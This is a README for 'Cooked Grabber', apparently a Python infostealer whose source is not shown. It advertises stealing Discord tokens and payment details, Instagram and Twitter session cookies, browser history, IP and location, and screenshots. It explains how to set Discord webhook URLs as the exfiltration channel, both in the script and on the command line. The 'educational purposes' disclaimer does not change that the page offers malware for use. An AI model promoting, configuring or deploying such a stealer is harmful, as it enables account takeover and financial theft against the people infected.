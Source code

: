 ![Logo](https://imgur.com/lCyX6TX.png)

# Cooked Grabber

Discord , Twitter, Instagram cookies and token grabber.

## Features

- Easy to use
- Alls navigators compatibility
- Browser history stealer
- Browser bookmarks stealer
- Take screenshot 
- Steal discord token
- Steal discord payment informations
- Steal IP adress and location
- Steal Instagram connection cookies
- Steal Twitter connection cookies
- Can be converted to exe
## Requirements

- **Windows 10** OS only (*win32, for x86, x86_64, and arm64 architectures*)
- **Python 3.x** (*unless it exe converted, python 3.9 used for the project.*)
- **Modules:** `$ pip install -r requirements.txt` (unless it exe converted)

## Screenshots

![App Screenshot](https://imgur.com/btX4Sro.png)

![App Screenshot](https://imgur.com/Fax7uTB.png)

## How to use ?

There is 2 ways to run the script.

### 1. First way

You need to add your **webhook(s)** **link(s)** to the script from this line:
```py
main(['YOUR DISCORD WEBHOOK URL']) #line 273
```
*You can run the script normaly.*

### 2. Second way

You can also run the program by giving several arguments (the webhook(s) link(s)):
```console
py CookedGrabber.py YOUR WEBHOOK(s) URL(s)
```

## Coming soon features 
- Saved password stealer
- More error bypass
## Disclaimer
- Only for educationnal puposes.
- We decline any responsability in case of misuse of this code.

## Author

- [@mouadessalim](https://github.com/mouadessalim)
- [@crashixx](https://github.com/crashixx)
